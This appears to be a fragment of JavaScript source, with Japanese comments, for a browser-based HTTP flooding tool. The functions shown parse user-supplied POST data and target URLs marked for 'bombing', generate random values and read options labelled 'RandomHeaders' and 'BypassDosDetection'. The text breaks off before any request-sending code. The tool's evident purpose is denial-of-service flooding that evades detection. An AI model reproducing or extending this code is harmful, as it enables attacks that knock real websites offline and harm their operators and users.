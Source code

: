 function random1(len1){
	if(!(0<len1)) len1=10;
	return Math.floor(Math.random()*len1)% len1;
}

function convurlrandom(sbody,rndtmp1,rndtmp2){
	return Math.floor(Math.random()*(Number(rndtmp2)-Number(rndtmp1)+1))+Number(rndtmp1);
}

//ここまで-----------------------------------------------------

function wildcard_detect(postdata_from_user, m_stBomburl) {
		//wildcard処理(POSTデータ)---------------------------------
		if(document.m_form1.wcc.checked) {
			wch=1;
		} else {
			wch=0;
		}
		var tlt=postdata_from_user.split(/\r\n|\r|\n/);
		tl = new Array;
		for(tlc=0;tlc<tlt.length;tlc++){
				if(tlt[tlc]=="" || tlt[tlc].match(/^\s|^\r/)){}	// 正直適当だったりする。
				else{
					tl.push(tlt[tlc]);
				}
        }
        if(tl.length > 0) {
        	IsPostdataVaild = 1
        } else {
        	alert("[エラー] POSTデータを入力してください。")
        	IsPostdataVaild = 0
        }
    		//ここまで--------------------------------------
    		//wildcardの処理(対象URL)-----------------------------------
    		if(document.m_form1.wcc_url.checked) {
    			wch_url=1
    		} else {
    			wch_url=0
    		}
    		var tlt_url=m_stBomburl.split(/\r\n|\r|\n/);
    		tl_url = new Array;
    		for(tlc_url=0;tlc_url<tlt_url.length;tlc_url++){
    				if(tlt_url[tlc_url]=="" || tlt_url[tlc_url].match(/^\s|^\r/)){}	// 正直適当だったりする。
	    			else{
	    				tl_url.push(tlt_url[tlc_url]);
	    			}
	    		}
	    		if(tl_url.length > 0) {
	    			IsUrlVaild = 1
	    		} else {
	    			alert("[エラー] 対象URLを入力してください。")
        		IsUrlVaild = 0
	    		}
	    	//ここまで---------------------------------------------------
            RandH = document.getElementById('RandomHeaders');
            if (RandH.checked) { 
                IsRandH = 1;
            } else {
                IsRandH = 0;
            } 
            BypassDos = document.getElementById('BypassDosDetection');
            if (BypassDos.checked) {
                IsBypassDos = 1;
            } else {
                IsBypassDos = 0;